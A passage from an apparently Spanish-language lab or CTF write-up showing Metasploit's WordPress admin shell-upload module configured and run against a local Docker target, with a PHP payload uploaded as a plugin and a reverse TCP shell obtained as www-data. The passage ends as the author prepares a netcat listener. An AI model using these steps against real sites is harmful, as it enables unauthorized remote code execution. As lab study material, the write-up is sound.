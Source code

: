 ```bash
Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an i
                                     nterface may be specifie
                                     d)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

En nuestro caso cambiamos el **rhost**, la url, el **lhost**, nuestra ip, **username**, el user recien creado, y **password**, su password:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost http://172.17.0.1
rhost => http://172.17.0.2
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost docker0
lhost => 172.17.0.1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username eviladmin
username => eviladmin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password admin
password => admin
```

Lo ejecutamos con `exploit` y obtenemos una shell como **www-data**:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Authenticating with WordPress using eviladmin:admin...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/YhxOuYmNHi/kMJyYmwgTI.php...
[+] Deleted kMJyYmwgTI.php
[+] Deleted YhxOuYmNHi.php
[+] Deleted ../YhxOuYmNHi
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:48282) at 2024-07-02 00:43:51 +0200

whoami
www-data
```

La shell que proporciona metasploit no me gusta mucho, por ello me voy a crear una shell con netcat. Nos ponemos a la escucha en nuestra máquina:

